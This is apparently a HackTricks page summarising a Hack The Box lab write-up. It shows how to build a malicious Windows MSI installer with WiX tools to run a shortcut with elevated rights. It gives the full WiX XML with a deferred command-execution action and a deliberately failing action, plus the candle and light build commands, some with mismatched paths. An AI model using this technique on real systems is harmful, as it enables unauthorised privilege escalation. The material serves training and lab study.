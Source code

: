 {{#include ../../banners/hacktricks-training.md}}

# Creating Malicious MSI and Getting Root

The creation of the MSI installer will be done using wixtools, specifically [wixtools](http://wixtoolset.org) will be utilized. It is worth mentioning that alternative MSI builders were attempted, but they were not successful in this particular case.

For a comprehensive understanding of wix MSI usage examples, it is advisable to consult [this page](https://www.codeproject.com/Tips/105638/A-quick-introduction-Create-an-MSI-installer-with). Here, you can find various examples that demonstrate the usage of wix MSI.

The aim is to generate an MSI that will execute the lnk file. In order to achieve this, the following XML code could be employed ([xml from here](https://0xrick.github.io/hack-the-box/ethereal/#Creating-Malicious-msi-and-getting-root)):

```markup
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
<Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product Name"
Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
<Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
<Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>
<Directory Id="TARGETDIR" Name="SourceDir">
<Directory Id="ProgramFilesFolder">
<Directory Id="INSTALLLOCATION" Name="Example">
<Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">
</Component>
</Directory>
</Directory>
</Directory>
<Feature Id="DefaultFeature" Level="1">
<ComponentRef Id="ApplicationFiles"/>
</Feature>
<Property Id="cmdline">cmd.exe /C "c:\users\public\desktop\shortcuts\rick.lnk"</Property>
<CustomAction Id="Stage1" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore"
Impersonate="yes"/>
<CustomAction Id="Stage2" Execute="deferred" Script="vbscript" Return="check">
fail_here
</CustomAction>
<InstallExecuteSequence>
<Custom Action="Stage1" After="InstallInitialize"></Custom>
<Custom Action="Stage2" Before="InstallFiles"></Custom>
</InstallExecuteSequence>
</Product>
</Wix>
```

It is important to note that the Package element contains attributes such as InstallerVersion and Compressed, specifying the version of the installer and indicating whether the package is compressed or not, respectively.

The creation process involves utilizing candle.exe, a tool from wixtools, to generate a wixobject from msi.xml. The following command should be executed:

```
candle.exe -out C:\tem\wix C:\tmp\Ethereal\msi.xml
```

Additionally, it is worth mentioning that an image is provided in the post, which depicts the command and its output. You can refer to it for visual guidance.

Furthermore, light.exe, another tool from wixtools, will be employed to create the MSI file from the wixobject. The command to be executed is as follows:

```
light.exe -out C:\tm\Ethereal\rick.msi C:\tmp\wix
```

Similar to the previous command, an image is included in the post illustrating the command and its output.

Please note that while this summary aims to provide valuable information, it is recommended to refer to the original post for more comprehensive details and accurate instructions.

## References

- [https://0xrick.github.io/hack-the-box/ethereal/#Creating-Malicious-msi-and-getting-root](https://0xrick.github.io/hack-the-box/ethereal/#Creating-Malicious-msi-and-getting-root)
- [https://www.codeproject.com/Tips/105638/A-quick-introduction-Create-an-MSI-installer-with](https://www.codeproject.com/Tips/105638/A-quick-introduction-Create-an-MSI-installer-with)
  [wixtools](http://wixtoolset.org)

{{#include ../../banners/hacktricks-training.md}}
